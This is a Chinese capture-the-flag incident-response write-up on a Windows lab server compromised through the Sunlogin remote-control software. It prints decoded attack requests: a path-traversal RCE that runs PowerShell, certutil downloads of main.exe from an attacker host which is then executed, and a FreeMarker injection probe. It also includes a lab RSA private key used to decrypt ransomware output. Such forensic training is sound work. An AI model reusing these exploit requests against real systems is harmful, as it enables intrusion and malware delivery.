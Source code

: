 # 第四章 windows 实战 - 向日葵

## 1

> 通过本地 PC RDP 到服务器并且找到黑客首次攻击成功的时间为 为多少, 将黑客首次攻击成功的时间为 作为 FLAG 提交 (2028-03-26 08:11:25.123)

使用 rdp 登录到服务器，定位到向日葵的日志目录

```plaintext
C:\Program Files\Oray\SunLogin\SunloginClient\log
```

![img](img/image_20241000-230046.png)

将日志文件提取出来进行分析，在其中找到以下记录

```log title="sunlogin_service.20240321-191046.log"
2024-03-21 19:54:46.097 - Info  - [service][TcpAcceptor] new acceptor 192.168.31.45:63976-->192.168.31.114:49724
2024-03-21 19:54:53.054 - Info  - [service][TcpAcceptor] new acceptor 192.168.31.45:57945-->192.168.31.114:49724
2024-03-21 19:54:56.066 - Info  - [service][TcpAcceptor] new acceptor 192.168.31.45:58485-->192.168.31.114:49724
2024-03-21 19:54:56.066 - Info  - [Acceptor][HTTP] new RC HTTP connection 192.168.31.45:58485, path: /, version: HTTP/1.1
2024-03-21 19:54:56.066 - Info  - [Acceptor][HTTP] new RC HTTP connection 192.168.31.45:58485,/, plugin:, session:
2024-03-21 19:54:56.086 - Info  - [service][TcpAcceptor] new acceptor 192.168.31.45:58494-->192.168.31.114:49724
2024-03-21 19:54:56.086 - Info  - [Acceptor][HTTP] new RC HTTP connection 192.168.31.45:58494, path: /jbossmq-httpil/HTTPServerILServlet, version: HTTP/1.1
2024-03-21 19:54:56.086 - Info  - [Acceptor][HTTP] new RC HTTP connection 192.168.31.45:58494,/jbossmq-httpil/HTTPServerILServlet, plugin:jbossmq-httpil, session:
2024-03-21 19:54:56.086 - Info  - [service][TcpAcceptor] new acceptor 192.168.31.45:58495-->192.168.31.114:49724
2024-03-21 19:54:56.086 - Info  - [Acceptor][HTTP] new RC HTTP connection 192.168.31.45:58495, path: /catalog-portal/ui/oauth/verify?error=&deviceUdid=%24%7b"freemarker%2etemplate%2eutility%2eExecute"%3fnew%28%29%28"id"%29%7d, version: HTTP/1.1
2024-03-21 19:54:56.086 - Info  - [Acceptor][HTTP] new RC HTTP connection 192.168.31.45:58495,/catalog-portal/ui/oauth/verify?error=&deviceUdid=%24%7b"freemarker%2etemplate%2eutility%2eExecute"%3fnew%28%29%28"id"%29%7d, plugin:catalog-portal, session:
```

很明显的目录扫描的行为

并在后续日志中找到以下 Path

```log
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+whoami
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+pwd
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+certutil+-urlcache+-split+-f+http%3A%2F%2F192.168.31.249%2Fmain.exe
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+certutil+-urlcache+-split+-f+http%3A%2F%2F192.168.31.249%2Fmypublic.pem
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+echo+647224830+%3E+qq.txt
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+.%2Fmain.exe
```

解码处理得到

```log
/check?cmd=ping../../../../../../../../../windows/system32/WindowsPowerShell/v1.0/powershell.exe whoami
/check?cmd=ping../../../../../../../../../windows/system32/WindowsPowerShell/v1.0/powershell.exe pwd
/check?cmd=ping../../../../../../../../../windows/system32/WindowsPowerShell/v1.0/powershell.exe certutil -urlcache -split -f http://192.168.31.249/main.exe
/check?cmd=ping../../../../../../../../../windows/system32/WindowsPowerShell/v1.0/powershell.exe certutil -urlcache -split -f http://192.168.31.249/mypublic.pem
/check?cmd=ping../../../../../../../../../windows/system32/WindowsPowerShell/v1.0/powershell.exe echo 647224830 > qq.txt
/check?cmd=ping../../../../../../../../../windows/system32/WindowsPowerShell/v1.0/powershell.exe ./main.exe
```

很明显的向日葵 RCE 漏洞，攻击者第一次执行 `whoami` 的时间就是答案

```flag
flag{2024-03-26 10:16:25.585}
```

## 2

> 通过本地 PC RDP 到服务器并且找到黑客攻击的 IP 为多少, 将黑客攻击 IP 作为 FLAG 提交

上一题中，向日葵的连接日志中就有

```flag
flag{192.168.31.45}
```

## 3

> 通过本地 PC RDP 到服务器并且找到黑客托管恶意程序 IP 为, 将黑客托管恶意程序 IP 作为 FLAG 提交

在第一题中，分析的攻击者执行的命令

```shell
whoami
pwd
certutil -urlcache -split -f http://192.168.31.249/main.exe
certutil -urlcache -split -f http://192.168.31.249/mypublic.pem
echo 647224830 > qq.txt
./main.exe
```

即可确定答案

```flag
flag{192.168.31.249}
```

## 4

> 找到黑客解密 DEC 文件, 将黑客 DEC 文件的 md5 作为 FLAG 提交

上传 `everything.exe` 执行文件搜索，得到以下结果

```plaintext
C:\Windows\System32\qq.txt
C:\Windows\System32\mypublic.pem
C:\Windows\System32\main.exe
```

将三个文件下载到本地进行分析，但是没有有价值信息

:::warning

这一题有一点脑洞

:::

在 `qq.txt` 中，得到这个数字 `647224830`

这个号码指向玄机的 QQ 群，在群文件中找到

![img](img/image_20241030-233019.png)

下载下来计算文件哈希即可

```flag
flag{5ad8d202f80202f6d31e077fc9b0fc6b}
```

## 5

> 通过本地 PC RDP 到服务器并且解密黑客勒索软件, 将桌面加密文件中关键信息作为 FLAG 提交

将桌面上的 `baoleiji.txt.banana` 文件下载到本地

```plaintext
N2xTZ2Bsn2Y5lve7KZ36bgsFjqncBs55VO0zkeEIr5Iga/kbegA0BAstotBWnZ16+trNfkzl3apUobodMkC8covEo22p+kWAyVjMRyJ98EQ4Pspr/Y5HIuH0xuvPa82j7b0AMJHkyd2viuymI/mrxjJk2X0xlEE4YVioMLd22+w=

Your files have been encrypted

0sWK8adKSGh1Xaxo6n1mZFoyNDYVokXwkBhxnzxU+MEJIV44u48SdOiFzWLn849hObaP6z26lLtMnXaDUnAPuMh+nF2hw9RoAsur7KYxE8/iY/y4jOEBsHT5wvQldcNfntrDyMUCvrWTUHl2yapUmaIIf2rZsNsqMVJ9puZzp58+FJmulyC7R1C2yoP1jHhsdOkU7htbzUWWsm2ybL+eVpXTFC+i6nuEBoAYhv2kjSgL8qKBFsLKmKQSn/ILRPaRYDFP/srEQzF7Y4yZa4cotpFTdGUVU547Eib/EaNuhTyzgOGKjXl2UYxHM/v0c3lgjO7GDA9eF3a/BBXPAgtK126lUfoGK7iSAhduRt5sRP4=
```

执行RSA解密

:::warning

需要注意的是，pem文件内的证书结构头有问题，需要改为以下形式

```plaintext
-----BEGIN RSA PRIVATE KEY-----
MIICXQIBAAKBgQDWQqpkHRKtRu66MjTrNZC13A6rIlGaJBd/FYBy4ifiITasCnQE
J9aRTIYQsM5iincecnvY8xGYMg5pVTp6P4fxS4/+1bAEciRXSTCmLI8FeDd3sjOc
HTw82sG0hfnnb0b/LFhbOCk7BgLnpwvSy5za/dtVQFSDbQbQuTBp029AKwIDAQAB
AoGBAKh6952NtvgGhQZpIG+sSUSX6/jqHZzFsKw/7idoatBIKcOS3LO/19udfvZ0
8XVPSGfqwjRQvo8dHXP6juc+Odg1XOLPw4fjjJz9b9dLKCKwtIU3CwA1AmuhYNGp
1OXlHLyUaNVTN3TZN9Dn7txD4gOvLIirqbmhzy/N7PdPF5ThAkEA4MB++5DSY7Kv
MO1uHuxTr/jRy6754Mzgo0fpLBXSB13/nLMxRA6QEbigoAFpsFd36EYMKzftbezB
gx2nphvLUwJBAPQMv730MqCWjaCPLgYRV+oMU6OnOMs6+ALql+I1eVqVfBAt+5De
HMxY7mWdaR9pofzuz+6KkmwRHqKSVw45dMkCQFJ68l76B+vkoFxxVe9tRU0YIE4C
mdtA9NOXSWAPZfOkMHFeZZ8XRRHr0q7FtfasMuoAAuk9bhngQCgREvxnyNcCQGnt
trQecHMfpe2Q+CsOEBi4rP0VsiMUP14UsUQwbbIRvD3Rl6WzotBXsXJNtrk5wmPk
zD//ybo6XA+4cSztZ3ECQQC92ck1XJm7V12SOFqHcNXFoS8tFvgNQXNEahmhJ2wb
xTo0VwUhCeG1n8X5PqRn6Rcsh8YQAt924YrWtcTxrg8g
-----END RSA PRIVATE KEY-----
```

:::

![img](img/image_20241038-233807.png)

继续下一步解密

![img](img/image_20241043-234344.png)

编码存在有一定问题，换一个在线工具就行

![img](img/image_20241049-234958.png)

即可得到答案

```flag
flag{EDISEC_15c2e33e-b93f-452c-9523-bbb9e2090cd1}
```
